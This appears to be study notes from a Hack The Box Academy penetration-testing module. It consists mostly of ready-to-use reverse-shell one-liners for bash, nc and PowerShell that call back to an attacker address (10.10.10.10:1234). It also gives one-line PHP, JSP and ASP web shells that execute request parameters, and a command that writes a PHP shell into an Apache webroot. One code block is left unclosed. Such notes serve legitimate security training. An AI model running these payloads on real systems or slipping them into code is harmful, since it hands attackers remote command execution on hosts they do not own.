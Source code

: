 # https://academy.hackthebox.com/module/77/section/725

# Reverse Shell Command
The command we execute depends on what operating system the compromised host runs on, i.e., Linux or Windows, and what applications and commands we can access. The Payload All The Things page has a comprehensive list of reverse shell commands we can use that cover a wide range of options depending on our compromised host.

Certain reverse shell commands are more reliable than others and can usually be attempted to get a reverse connection. The below commands are reliable commands we can use to get a reverse connection, for bash on Linux compromised hosts and Powershell on Windows compromised hosts:

```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

# Writing a Web Shell
First of all, we need to write our web shell that would take our command through a GET request, execute it, and print its output back. A web shell script is typically a one-liner that is very short and can be memorized easily. The following are some common short web shell scripts for common web languages:

```php
<?php system($_REQUEST["cmd"]); ?>
```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```
```asp
<% eval request("cmd") %>
```

## We can check these directories to see which webroot is in use and then use echo to write out our web shell. For example, if we are attacking a Linux host running Apache, we can write a PHP shell with the following command:

```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```
